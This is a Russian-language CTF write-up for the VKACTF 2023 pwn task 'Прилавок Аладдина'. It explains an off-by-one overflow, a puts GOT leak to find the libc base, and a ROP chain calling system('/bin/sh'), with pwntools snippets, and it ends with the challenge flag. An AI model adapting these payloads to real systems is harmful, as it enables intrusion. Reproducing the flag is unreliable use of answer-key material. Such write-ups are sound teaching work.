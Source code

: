 # Прилавок Аладдина

|   Cобытие   | Название | Категория | Сложность |
| :---------: | :------: | :-------: | :-------: |
| VKACTF 2023 |  Пустыня чудес  |  Pwn  |  Легкая  |

## Описание

>Автор: old3gg, Ent3rG0dM0d3
>
>"Верблюд, султан, /bin/sh, flag... Хмм, так себе цепочка. В пустыне чудес можешь перепробовать все комбинации, только не разозли того парня из лампы..."

# Решение

1. Дан 64-битный исполняемый файл, изучив который, можно понять что в функции guessWord есть уязвимость  Off By One, а именно в месте , когда мы считаем длину i <= len вместо i < len, таким образом мы получаем драгоценное переполнение на 1 байт.

2. Понимаем, что переполняемый нами байт будет влиять на допустимую длину нашей полезной нагрузки, поэтому берём побольше.

```python
buffer_length = 32
payload = 'A' * buffer_length + 'z'
guess_word(payload, clean_buffer=True)
```
3. Далее нам нужно узнать версию нашей libc, поэтому проделываем всем известный слив адреса puts из таблицы got , для этого нам понадобится
- гаджет pop_rdi, адрес которого можно найти в бинаре с пмощью ropper или ROPgadget
- адрес puts_plt, который берем из бинаря 
- адрес функции gameloop, чтобы после слива адреса, опять вернуться в меню

```python
overflow_offset = 64
pop_rdi_ret = 0x40199b
puts_got = exe.got['puts']
puts_plt = exe.sym['puts']
game_loop = exe.sym['gameLoop']
payload = b'A' * overflow_offset + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) +  p64(game_loop)
guess_word(payload)

```

4. Теперь нам не составляет труда посчиать базу libc

```python
leak = u64(io.recvline(keepends=False).ljust(8,b'\x00'))
libc.address = leak - libc.sym['_IO_puts']
```

5. Финальным шагом после этого будет вызов функции system с аргументом /bin/sh

```python
binsh=next(libc.search(b'/bin/sh\x00'))
puts = libc.sym['puts']
system = libc.sym['system']
exit = libc.sym['exit']
payload= b'A' * overflow_offset+p64(pop_rdi_ret)+p64(binsh)+p64(pop_rdi_ret+1)+p64(system)
io.sendlineafter(b'Enter choice: ', b'2')
io.sendlineafter(b'Enter word: ', payload)
```

P.S. части флажка без лита могли попасться вам в списке заганных слов, но вряд ли с их помощью у вас получилось правильно подобрать настоящий флаг)

[Скрипт](../exploit/exploit.py) для решения задания.

```
vka{and_let_all_the_words_of_this_world_help_you_find_the_right_path}
```